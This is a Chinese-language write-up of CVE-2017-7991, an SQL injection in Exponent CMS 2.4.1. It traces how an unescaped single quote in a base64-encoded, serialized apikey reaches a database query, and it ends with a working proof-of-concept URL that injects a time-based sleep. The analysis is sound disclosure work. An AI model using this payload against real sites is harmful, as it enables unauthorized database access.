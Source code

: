 # 漏洞
注入点在 /framework/modules/eaas/controllers/eaasController.php 中。如下：

```php
public function api() {
	if (empty($this->params['apikey'])) {
		$_REQUEST['apikey'] = true;  // set this to force an ajax reply
		$ar = new expAjaxReply(550, 'Permission Denied', 'You need an API key in order to access Exponent as a Service', null);
		$ar->send();  //FIXME this doesn't seem to work correctly in this scenario
	} else {
		$key = expUnserialize(base64_decode(urldecode($this->params['apikey'])));
		$cfg = new expConfig($key);
		$this->config = $cfg->config;
		if(empty($cfg->id)) {
			$ar = new expAjaxReply(550, 'Permission Denied', 'Incorrect API key or Exponent as a Service module configuration missing', null);
			$ar->send();
		} else {
			if (!empty($this->params['get'])) {
				$this->handleRequest();
			} else {
				$ar = new expAjaxReply(200, 'ok', 'Your API key is working, no data requested', null);
				$ar->send();
			}
		}
	}
}
```

api()中，先检测参数`apikey`　是否为空，若不为空，则进入else分支。在分支中，先对参数`apikey`进行一次`urldecode`,接着进行 `base64_decode`,最后进行一次反序列化`expUnserialize`，在`expUnserialize`中存在一次小小的过滤：
```php
function expUnserialize($serial_str) {
    if ($serial_str === 'Array') return null;  // empty array string??
    if (is_array($serial_str) || is_object($serial_str)) return $serial_str;  // already unserialized
//    $out1 = @preg_replace('!s:(\d+):"(.*?)";!se', "'s:'.strlen('$2').':\"$2\";'", $serial_str );
    $out = preg_replace_callback(
        '!s:(\d+):"(.*?)";!s',
        create_function ('$m',
            '$m_new = str_replace(\'"\',\'\"\',$m[2]);
            return "s:".strlen($m_new).\':"\'.$m_new.\'";\';'
        ),
        $serial_str );
//    if ($out1 !== $out) {
//        eDebug('problem:<br>'.$out.'<br>'.$out1);
//    }
```

它会把 经过`base64_decode`后的`$apikey` 中的双引号加上斜杠。但是对于单引号，它没有进行处理。在进行`expUnserialize`之后，赋值给`$key`，并在之后实例化一个 `expConfig`对象。`expConfig`部分代码如下：

```php
class expConfig extends expRecord {
	protected $table = 'expConfigs';

	function __construct($params=null) {
		global $db;

        if (!is_array($params)) {
            $this->location_data = serialize($params);
            parent::__construct($db->selectValue($this->table, 'id', "location_data='".$this->location_data."'"));
        } else {
            parent::__construct($params);
        }
	....
```
在 framysqli\core\subsystems\database\mysqli.php 中，可以看到关于`selectValue`的定义：

```php
function selectValue($table, $col, $where=null) {
	if ($where == null)
		$where = "1";
	$sql = "SELECT " . $col . " FROM `" . $this->prefix . "$table` WHERE $where LIMIT 0,1";
	$res = @mysqli_query($this->connection, $sql);

	if ($res == null)
		return null;
	$obj = mysqli_fetch_object($res);
	if (is_object($obj)) {
		return $obj->$col;
	} else {
		return null;
	}
}
```

可以看到，在检查完`$params`是否是数组后，将我们传入的`$params`序列化后直接插入到了数据库查询语句中,未作任何过滤和检测。加上之前并未对单引号进行处理，因此我们可以利用单引号，对 `location_data='".$this->location_data."'` 中的单引号进行闭合。


# POC

```
http://localhost:2500/exponent241/index.php
?module=eaas
&action=api
&apikey=czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7
```
其中 base64_decode("czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7") = s:16:"aaa'or "'sleep(2)#

查看 mysql.log ，可以发现成功注入。
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170512/sqlinject/1.jpg?raw=true)
运行的 sql语句 为：

```mysql
SELECT id FROM `exponent_expConfigs` WHERE location_data='s:19:"aaa'or \"'sleep(2)#";' LIMIT 0,1
```
可以看到单引号被成功闭合。



本文首发于[[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析](https://chybeta.github.io/2017/05/12/CVE-2017-7991-Exponent-CMS-2-4-1-SQL-Injection%E5%88%86%E6%9E%90/)